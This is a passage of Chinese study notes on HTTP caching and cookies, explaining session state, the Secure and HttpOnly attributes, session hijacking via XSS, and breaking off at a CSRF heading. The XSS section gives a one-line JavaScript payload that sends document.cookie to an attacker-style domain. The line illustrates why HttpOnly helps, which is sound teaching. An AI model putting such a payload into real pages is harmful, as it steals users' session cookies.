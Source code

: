看是否命中**协商缓存**，命中则返回**304**，否则**服务器**返回**新的资源**；

### cookies

#### 出现背景

HTTP 是**无状态**的：在同一个连接中，两个执行成功的请求之间是没有关系的;

```
比如在一个电商网站里，用户把某个商品加入到购物车，切换一个页面后再次添加了商品，这两次添加商品的请求之间没有关联，浏览器无法知道用户最终选择了哪些商品。
```

而使用 HTTP 的头部扩展，HTTP Cookies 就可以解决这个问题;

把**cookies添加到头部**中，创建一个会话让每次请求都能共享**相同上下文信息**，达成**相同的状态**；

Cookie 使基于**无状态**的 HTTP 协议**记录稳定的状态**信息成为了可能。

#### 简介

Cookie是**服务器**发送到**用户浏览器**并保存在**本地**的一小块数据；

会在**浏览器**下次向**同一服务器**再发起**请求**时被携带并发送到服务器上；

通常，它用于告知**服务端** **两个请求**是否来自**同一浏览器**，如保持用户的**登录状态**。

#### 应用

- 会话状态管理（用户登陆状态、购物车、游戏分数、或其它需要记录的信息）
- 个性化设置（用户自定义设置、主体等）
- 浏览器行为跟踪（跟踪分析用户行为等）

#### 限制访问cookie

有两种方法可以确保cookie被安全发送，并且不会被意外的参与者或脚本访问：**Secure属性**和**HttpOnly属性**

不过，敏感信息不应该通过cookie传输（**明文传输**）；

**secure属性**可以预防man-in-the-middle攻击者的攻击，但是**可以访问客户端的人**可以读取它；

使用**HttpOnly属性**可防止通过**js**访问**cookie**值；

#### 会话劫持和XXS

在web应用中，cookie常用来**标记用户**或**授权会话**；

因此，如果web应用的cookie**被窃取**，可能导致**用户的会话**收到攻击；

常用窃取cookie的方法有 **社会工程学** 和 **应用程序漏洞** 进行**xxs攻击**；

而设置了**HttpOnly属性**的cookie由于阻止了js对其的访问，而能在一定程度程度上缓解此类攻击；

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie
```



#### 跨站请求伪造（CSRF）

例子：
